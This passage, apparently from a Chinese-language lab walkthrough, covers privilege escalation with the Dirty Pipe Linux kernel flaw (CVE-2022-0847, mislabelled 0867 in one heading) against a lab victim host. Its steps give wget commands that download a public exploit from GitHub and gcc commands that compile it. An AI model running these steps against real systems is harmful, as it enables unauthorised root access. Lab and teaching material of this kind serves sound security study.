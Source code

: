 ![](img/7d57e679915384552eab65a84ed04cbf.png)

我们有根权限！

**Dirty-Pipe(CVE-2022–0867)** CVE-2022–0847 是 5.8 到 5.10 之间的 Linux 内核中的一个漏洞，可以覆盖任意只读文件中的数据。这会导致权限提升，因为非特权进程可以将代码注入根进程。

背景资料:[https://sysdig.com/blog/cve-2022-0847-dirty-pipe-sysdig/](https://sysdig.com/blog/cve-2022-0847-dirty-pipe-sysdig/)

内核:5.8 到 5.10–108

受害者 03(脏管道)
- Kali Linux (x86)
- IP 地址:192.168.62.171
-内核版本:5.10–40

29.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

下载脏管道漏洞

```
file=exploit-1
wget https://raw.githubusercontent.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/main/${file}.c -O /tmp/${file}.c
```

![](img/f22421da9f7b2e748690a70ceb16eba0.png)

30.可选项:在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

在 Kali (x86 和 x64 版本)上编译漏洞。仅当无法在目标上本地编译该漏洞时，才执行此步骤。

```
file=exploit-1
gcc -m32 -static -o /tmp/${file}_x86 /tmp/${file}.c
gcc -static -o /tmp/${file}_x64 /tmp/${file}.c
```

![](img/651aea366744b062a5331e4f9c0d0d87.png)
